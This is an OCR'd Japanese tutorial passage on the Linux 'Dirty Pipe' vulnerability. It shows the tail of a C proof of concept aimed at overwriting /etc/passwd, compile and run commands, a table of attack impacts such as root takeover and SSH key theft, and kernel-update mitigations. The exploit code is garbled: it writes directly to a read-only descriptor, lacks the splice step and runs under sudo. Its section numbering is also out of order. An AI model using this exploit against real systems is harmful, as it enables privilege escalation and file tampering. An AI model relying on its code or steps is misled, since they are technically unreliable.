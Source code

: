 ```
write(pipefd[1], payload, len);

/* 4. 読み取り専用ファイルに対して書き込みを試みる */
if (write(fd, payload, len) < 0) {
    /* errno は EINVAL が返ってこなくてもエラー */
    perror("write to /etc/passwd");
} else {
    printf("dirty pipe succeeded!\n");
}

/* 5. リソースを解放 */
close(pipefd[0]);
close(pipefd[1]);
close(fd);
\`\`\`

### 実行手順（簡易ガイド）

1. **ソースコードを保存**
   `dirty_pipe_demo.c` と名前を付けて上記コードを保存。

2. **コンパイル**
  \`\`\`bash
   gcc -O2 -o dirty_pipe_demo dirty_pipe_demo.c
   \`\`\`

3. **実行**
   \`\`\`bash
   sudo ./dirty_pipe_demo
   \`\`\`

   上記コマンドが成功すると、`/etc/passwd` が書き替えられます（内容の確認は `cat /etc/passwd` を参照）。

> **注意**
> このサンプルは「例示」のために作成されたもので、実際に行う際は必ず権限がある環境で、**バックアップを取ってから** 実施してください。
> 実環境で利用する場合は、**パッチ適用済み** のカーネルに対しては動作しません。

---

## 4. この脆弱性が引き起こす問題

| 問題 | 詳細 |
|------|------|
| **権限昇格** | 読み取り専用のファイルに対して書き込めるため、`/etc/shadow` などを改ざんし root 権限を取得できる。 |
| **情報漏洩** | 攻撃者はファイルを任意に改ざんできるので、機密情報（例えば SSH 鍵）を盗むことが可能。 |
| **システム破壊** | 重要な構成ファイルを破壊し、システム全体を破損させることも可能。 |
| **持続的侵害** | 攻撃者がファイルを改ざんした後、root での操作が可能になり、持続的な侵害が容易になる。 |

### 3. この脆弱性が最初で実行される前に注意する点（Mitigation）

1. **カーネルアップデート**
   - 5.15.41 以降に更新すれば、この脆弱性はすでに修正済みです。
   - `uname -r` でカーネルバージョンを確認し、古い版本を使っている場合は必ずアップデートしてください。

2. **最小権限での実行**
   - 不要なサービスは停止し、必要最小限の権限でサービスを稼働させる。

3. **監視**
   - ファイルの変更を監視（`auditd` 等）し、異常を検知する。

4. **安全なファイル権限設定**
   - `/etc/passwd`, `/etc/shadow`, `/root/.ssh/*` などは適切な権限とモジュールを設定してください。

```